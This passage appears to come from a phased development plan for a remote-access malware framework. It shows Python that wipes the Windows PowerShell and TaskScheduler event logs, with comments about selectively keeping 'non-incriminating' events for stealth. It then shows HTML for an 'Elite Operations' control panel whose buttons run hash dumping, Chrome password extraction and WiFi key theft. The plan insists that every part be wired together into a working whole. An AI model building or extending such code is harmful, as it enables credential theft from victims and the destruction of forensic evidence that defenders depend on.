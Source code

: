 ```python
            'Microsoft-Windows-PowerShell/Operational',
            'Microsoft-Windows-TaskScheduler/Operational'
        ]
        
        for log_name in logs_to_clear:
            try:
                # Clear the log
                win32evtlog.ClearEventLog(None, log_name)
            except:
                # If direct clear fails, try selective deletion
                handle = win32evtlog.OpenEventLog(None, log_name)
                
                # Read all events
                events = win32evtlog.ReadEventLog(
                    handle,
                    win32evtlog.EVENTLOG_BACKWARDS_READ | win32evtlog.EVENTLOG_SEQUENTIAL_READ,
                    0
                )
                
                # Selectively keep non-incriminating events
                # This is more stealthy than clearing everything
                
                win32evtlog.CloseEventLog(handle)
        
        return True
    except:
        return False
```

---

## PHASE 4.5: FRONTEND/BACKEND SYNCHRONIZATION (Week 9)

### CRITICAL: WIRE EVERYTHING TOGETHER

**⚠️ NO DISCONNECTED CODE - Everything must work end-to-end!**

### A. Update Web Dashboard
**File:** `templates/dashboard.html`

```html
<!-- Add Elite Commands Panel -->
<div class="container-fluid mt-4">
    <div class="card elite-panel">
        <div class="card-header bg-dark text-white">
            <h4><i class="fas fa-skull"></i> Elite Operations</h4>
        </div>
        <div class="card-body">
            <!-- Credential Extraction -->
            <div class="row mb-3">
                <div class="col-md-12">
                    <h5>Credential Extraction</h5>
                    <div class="btn-group" role="group">
                        <button class="btn btn-danger" onclick="runElite('hashdump')">
                            <i class="fas fa-key"></i> Hash Dump
                        </button>
                        <button class="btn btn-danger" onclick="runElite('chromedump')">
                            <i class="fab fa-chrome"></i> Chrome Passwords
                        </button>
                        <button class="btn btn-danger" onclick="runElite('wifikeys')">
                            <i class="fas fa-wifi"></i> WiFi Keys
                        </button>
                    </div>
```
